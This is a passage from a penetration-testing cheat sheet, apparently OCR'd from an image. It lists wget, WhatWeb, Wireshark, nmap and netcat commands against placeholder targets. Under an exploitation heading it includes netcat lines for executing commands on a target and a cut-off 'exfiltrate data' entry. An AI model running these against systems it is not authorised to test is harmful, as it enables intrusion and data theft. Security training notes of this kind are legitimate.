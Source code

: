 #### \[\[WGet]]

*   **Download File:** Downloading files, mirroring websites, and automated retrieval of web resources.

    ```bash
    wget http://<target_ip>/file
    ```
*   **Recursive Download:** Recursively downloads all files and directories from the target server.

    ```bash
    wget -r http://<target_ip>/
    ```

#### \[\[WhatWeb]]

*   **Query Domain:** Identifies the web server software, version, and technologies in use.

    ```bash
    whatweb http://<target_ip>/
    ```

### Exploitation Tools

#### \[\[Metasploit]]

#### \[\[Wireshark]]

*   **Wireshark Packet Capture:**

    ```bash
    wireshark -i <interface> -f "tcp port 80"
    ```

#### \[\[Nmap]]

*   **Basic Nmap Scan:** Scan target on specified port to verify if service is on.

    ```bash
    nmap <target_ip> -p 80
    ```

#### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 80
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 80 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 80
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.
